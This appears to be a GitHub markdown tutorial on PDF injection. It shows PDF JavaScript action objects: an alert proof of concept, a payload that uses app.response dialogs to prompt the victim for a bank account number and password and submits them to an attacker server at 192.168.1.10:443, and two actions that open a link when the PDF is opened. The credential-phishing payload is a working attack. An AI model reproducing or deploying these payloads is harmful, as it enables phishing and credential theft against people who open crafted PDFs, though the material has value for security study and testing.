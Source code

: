 # PDF Injection

## Introduction

Popup Windows (dialogs) are an important component of Acrobat interactivity. Popup Windows provides the user with error messages, warnings, and other key information. They ask the user questions and collect input. Acrobat has several types of built-in Popup Windows (alert, response, and file open), as well as functions for creating custom dialogs.

Will demonstrate how to create the “alert(1)” of PDF injection and how to improve it to inject JavaScript that can steal credentials and open a malicious link.

We can inject code in PDF like XSS injection inside the javascript function call. In normal XSS you need to make sure the syntax is correct and valied, the same principle is applied to PDF except the injection is inside an object, such as javascript, text stream or annotation URI.

### XSS

To perform an XSS we inject our payload in javascript object and make sure the parenthesis are closed correctly. you can note that the injection was successful if the PDF render correctly without any error. Breaking the PDF is nice, but we need to ensure we could execute JavaScript of course. I started XSS with a popup alert by injecting a javascript code to the PDF file as following.

#### Alert Box

The app.alert() function is used to display a popup box to the victim.

```bash
<<
/Type /Action
/S /JavaScript
/JS (app.alert('XSS');)
>>
```

This will pop up alert box when PDF file open.

##### Stealing Credentials

Most banks send monthly statements protected with the client’s account and password, The client can be phished and stolen his credentials if he is a victim of a phishing attack.

The following scenario demonstrate how an attacker can steal credentials and send them to his server using submit form method.

The first argument to app.response() is the text displayed in the body of the Response Box. This is the standard input, but the Response Box can be called with no arguments at all since it always displays a text input box. The text entered in this box will be returned to the account variable if the user presses the OK button to exit the dialog. If they press Cancel , account will be null, same thing in the second argument.

In cURL variable, the attacker server is added along with the account and password collected from the victim, this submitted to the attacker using submitForm() function.

```bash
<<
/Type /Action
/S /JavaScript
/JS
(
var account = app.response ({ cQuestion:"Enter your Bank Account Number", cTitle:"Bank Account Details", bPassword:false, cDefault: global.cLastPswd, cLabel:"A/C"});
var password = app.response ({ cQuestion:"Enter your Bank Account Passowrd", cTitle:"Bank Account Details", bPassword:true, cDefault: global.cLastPswd, cLabel:"Password"});
var cURL = "http://192.168.1.10:443" + "?" + "account=" + account + "&password=" + password;
this.submitForm({cURL: encodeURI(cURL), cSubmitAs: 'HTML'});
)
>>
```

#### Open Malicious Link

An attacker can embed a malicious link in a PDF, when the victim opens the PDF a popup message of security warning will show, if the link looks legitimate the victim may click allow and open a malicious website.

The URI method allowed launching a link while opening the PDF, which can misuse by attackers to launch malicious links.

```bash
<<
/Type /Action
/S /URI
/URI (https://twitter.com/0xCyberY)
>>
```

The same can be approached using app.launchURL() function in the javascript object.

```bash
<<
/Type /Action
/S /JavaScript
/JS
(
app.launchURL("https://twitter.com/0xCyberY", true);
)
>>
```
